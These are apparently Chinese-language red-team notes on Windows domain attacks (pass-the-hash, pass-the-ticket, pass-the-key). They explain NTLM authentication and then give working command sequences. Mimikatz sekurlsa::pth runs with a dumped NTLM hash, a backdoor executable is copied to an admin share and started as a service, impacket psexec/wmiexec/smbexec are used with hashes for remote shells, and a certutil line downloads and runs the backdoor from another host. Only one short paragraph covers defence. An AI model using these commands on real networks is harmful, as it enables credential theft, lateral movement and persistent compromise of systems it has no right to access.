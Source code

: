 pass the hash（哈希传递攻击，简称pth）
pass the ticket（票据传递攻击，简称ptt）
pass the key（密钥传递攻击，简称ptk）

PTH(pass the hash) 利用的lm或ntlm值碰撞进行的渗透测试（NTLM认证攻击）
PTK(pass the key)) 利用的ekeys aes256进行的渗透测试（NTLM认证攻击）
PTT(passtheticket) 利用的票据凭证TGT进行渗透测试（Kerberos认证攻击）

## **哈希传递攻击**
PTH = Pass The Hash，在域环境中，通过密码散列值 (通常是 NTLM Hash，明文md4等加密)来进行攻击。
用户登录系统时，系统会将明文密码转换成NTLM Hash，并与存储在SAM数据库中的哈希值进行比对来完成认证。
在PTH攻击中，攻击者通过某些手段（如利用系统漏洞、社交工程、密码哈希的嗅探等）获取到用户的NTLM Hash，然后使用这个哈希值在另一台机器上尝试进行远程登录 或 访问网络资源（Hash被KDC记录过，可以挑战成功授权访问），从而绕过需要明文密码的认证过程。NTLM协议允许使用密码哈希来进行认证，因此如果系统接受哈希值作为认证凭证，PTH 攻击就可以成功。


防御：微软在2014年发布了安全更新KB2871997，这个更新提高了安全性，限制了某些PTH攻击手段。然而，即使是打了这个补丁，SID为500的administrator账户（默认的管理员账号）仍然可以进行PTH攻击，因为该补丁并不限制SID为500的账户。

另外注意在 Window Server 2012 R2 之前使用到的密码散列值是 LM、NTLM(Windows7之后)，
在 Windows7 和 2012 R2 及其版本之后使用到的密码散列值是 NTLM Hash。


## **获取Hash**
上线提权后使用mimikatz.exe或CS右击获取明文密码，在日志中查看
```
* Username : webadmin
* Domain   : GOD
* LM       : e90127c07127ed12f4ebf668acca53e9
* NTLM     : 518b98ad4178a53695dc997aa02d455c
* SHA1     : 39aa99a9e2a53ffcbe1b9eb411e8176681d01c39
```
Windows7前，用LM
Windows&后，用NTLM的518b98ad4178a53695dc997aa02d455c

## **利用方式**

1、CS自带Mimikatz的命令(实战难利用)
```
mimikatz privilege::debug

mimikatz sekurlsa::pth /user:administrator /domain:192.168.3.32 /ntlm:518b98ad4178a53695dc997aa02d455c

此时在跳板机上弹出cmd窗口(实战难利用)，且向目标机创建的IPC隧道。
net use \\192.168.3.32\c$
dir \\192.168.3.32\c$
跳板机CS代理转发-转发上线 生成后门
copy 4.exe \\192.168.3.32\c$

创建服务运行，192.168.3.32主机对应域名sqlserver
sc \\sqlserver create bshell binpath= "c:\4.exe"
sc \\sqlserver start bshell
```
2、impacket脚本程序atexec\psexec\wmiexec\smbexec
可配置socks代理，本地运行。如：反弹shell。
```
直接命令：
atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.3.21 "whoami"`

反弹shell：
psexec -hashes :NTLM 值 域名/域用户@域内 ip 地址
smbexec -hashes :NTLM 值 域名/域用户@域内 ip 地址
wmiexec -hashes :NTLM 值 域名/域用户@域内 ip 地址

如：
D:\Myproject\venv\Scripts\python.exe psexec.py -hashes :518b98ad4178a53695dc997aa02d455c ./administrator\@192.168.32
```

上传后门到跳板机的80服务，反弹shell后下载并运行上线。
```
certutil.exe -urlcache -split -f http://192.168.3.31:80/4.exe 4.exe & 4.exe
```